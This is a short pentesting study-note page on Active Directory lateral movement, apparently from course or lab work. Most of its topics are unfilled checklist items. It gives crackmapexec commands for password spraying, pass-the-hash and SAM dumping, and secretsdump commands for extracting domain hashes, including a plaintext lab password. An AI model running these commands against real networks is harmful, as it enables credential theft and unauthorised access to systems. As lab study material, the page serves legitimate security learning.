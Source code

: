 
>[! bug] Moving Laterally & Vertically

```
- [ ] Pass Attacks
- [ ] Dumping and Cracking Hashes
- [ ] Kerberoasting Overview
- [ ] Token Impersonation
- [ ] LNK File Attacks
- [ ] GPP / cPassword Attacks
- [ ] Mimikatz
- [ ] Credential Dumping with Mimikatz
- [ ] Post-Compromise Attack Strategy
```



##  Pass Attacks

- [ ] crackmapexec

```
crackmapexec smb <IP_Address> -u <user_list> -d <domain_list> -p <password_list>
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -d MARVEL.local -p Password1
```

Hash
```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth --sam
```


- [ ] secretsdump

```
secretsdump.py -no-pass -just-dc MULTIMASTER\$@10.10.10.179
```

```
secretsdump.py Cascade.local/ArkSvc:'w3lc0meFr31nd'@10.10.10.182 
```




- [ ] Dumping and Cracking Hashes
- [ ] Kerberoasting Overview
- [ ] Token Impersonation
- [ ] LNK File Attacks
- [ ] GPP / cPassword Attacks
- [ ] Mimikatz
- [ ] Credential Dumping with Mimikatz
- [ ] Post-Compromise Attack Strategy